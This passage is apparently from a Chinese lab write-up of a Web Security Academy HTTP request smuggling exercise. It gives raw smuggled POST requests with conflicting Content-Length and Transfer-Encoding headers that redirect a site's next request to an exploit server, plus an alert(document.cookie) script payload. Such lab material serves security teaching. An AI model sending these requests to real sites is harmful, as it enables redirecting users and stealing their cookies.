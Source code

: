 ```bash
POST / HTTP/1.1
Host: 0adb000003e8f05f81aa7f7900e90038.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=8 HTTP/1.1
Host: baidu.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[![](assets/1704418275-d7b6e789cf7a4e23afed1177f67e66c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161642-6d4b80da-aa10-1.png)

[![](assets/1704418275-1744c4a2dc6ad70d45ffbb5d8388c551.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161648-70de0c4a-aa10-1.png)  
在这里我们可以使用此请求将对网站的下一个请求重定向到/发布到我们自己选择的主机上，下面我们直接使用平台提供的漏洞服务器做一个演示，在/post 创建一个 text/javascript 文件：

```bash
alert(document.cookie)
```

[![](assets/1704418275-f14f3df1a92f85ffa0f594292bfc691f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161707-7c1264da-aa10-1.png)

随后构造以下走私的请求

```bash
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

[![](assets/1704418275-d1467e18e62ee313d515ab0daed6637b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161733-8ba620f8-aa10-1.png)

刷新博客站点可以看的被投毒的效果

[![](assets/1704418275-cdb942896c60ccbe8c03271295833d8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161747-93c81980-aa10-1.png)
